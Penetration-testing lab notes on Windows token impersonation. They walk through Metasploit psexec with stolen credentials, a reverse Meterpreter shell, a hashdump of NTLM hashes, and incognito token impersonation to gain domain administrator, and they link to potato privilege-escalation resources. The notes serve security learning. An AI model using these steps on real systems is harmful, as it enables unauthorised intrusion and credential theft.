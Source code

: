 # Token Impersonation

## What is it

- Token are temp keys that give access to a system or network without credentials.

## How to

- Launch Metasploit `msfconsole`
- Choose the exploit: `use exploit/windows/smb/psexec`
- Set: rhosts, smbdomain, smbpass, smbuser, target (we can use `show targets` to have a list), payload
- Launch the attack: `run`
- We get a shell:
  ```
  msf6 exploit(windows/smb/psexec) > run

  [*] Started reverse TCP handler on 10.0.2.8:4444 
  [*] 10.0.2.15:445 - Connecting to the server...
  [*] 10.0.2.15:445 - Authenticating to 10.0.2.15:445|marvel.local as user 'fcastle'...
  [!] 10.0.2.15:445 - peer_native_os is only available with SMB1 (current version: SMB3)
  [*] 10.0.2.15:445 - Uploading payload... oeyrkyrs.exe
  [*] 10.0.2.15:445 - Created \oeyrkyrs.exe...
  [*] Sending stage (200262 bytes) to 10.0.2.15
  [+] 10.0.2.15:445 - Service started successfully...
  [*] 10.0.2.15:445 - Deleting \oeyrkyrs.exe...
  [*] Meterpreter session 1 opened (10.0.2.8:4444 -> 10.0.2.15:61871 ) at 2022-02-11 13:49:12 -0500

  meterpreter > 
  ```
- Getting hashes: `hashdump`
  ```
  meterpreter > hashdump
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Frank Castle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6cedee56d27d175f48042b53cb6b242:::
  ```
- Use tools: `load` (double tab to get the list of tools)
- `load incognito`
  ```
  Incognito Commands
  ==================

      Command              Description
      -------              -----------
      add_group_user       Attempt to add a user to a global group with all tokens
      add_localgroup_user  Attempt to add a user to a local group with all tokens
      add_user             Attempt to add a user with all tokens
      impersonate_token    Impersonate specified token
      list_tokens          List tokens available under current user context
      snarf_hashes         Snarf challenge/response hashes for every token
  ```
- list_tokens -u
  ```
  meterpreter > list_tokens -u

  Delegation Tokens Available
  ========================================
  Font Driver Host\UMFD-0
  Font Driver Host\UMFD-1
  Font Driver Host\UMFD-2
  MARVEL\Administrator
  MARVEL\fcastle
  NT AUTHORITY\LOCAL SERVICE
  NT AUTHORITY\NETWORK SERVICE
  NT AUTHORITY\SYSTEM
  Window Manager\DWM-1
  Window Manager\DWM-2

  Impersonation Tokens Available
  ========================================
  No tokens available
  ```
- Impersonate Administrator: 
  ```
  meterpreter > impersonate_token marvel\\administrator
  [+] Delegation token available
  [+] Successfully impersonated user MARVEL\Administrator
  meterpreter > shell
  Process 8576 created.
  Channel 1 created.
  Microsoft Windows [Version 10.0.19044.1288]
  (c) Microsoft Corporation. All rights reserved.
  C:\Windows\system32>whoami
  whoami
  marvel\administrator
  ```
- If we hashdump again it will not work so we can rev2self to get back to the initial user
- Any user that has logged in the target will have a token there until the target reboots

## Potato Attacks

- See [here](../writeups/HTB-Jeeves.md) an example of a potato attack

## Resources

{% embed url="https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/" %} Rotten Potato - Foxglove Security {% endembed %}  
{% embed url="https://github.com/ohpe/juicy-potato" %} Juicy Potato {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners" %} TCM Security - Windows privilege escalation {% endembed %}  

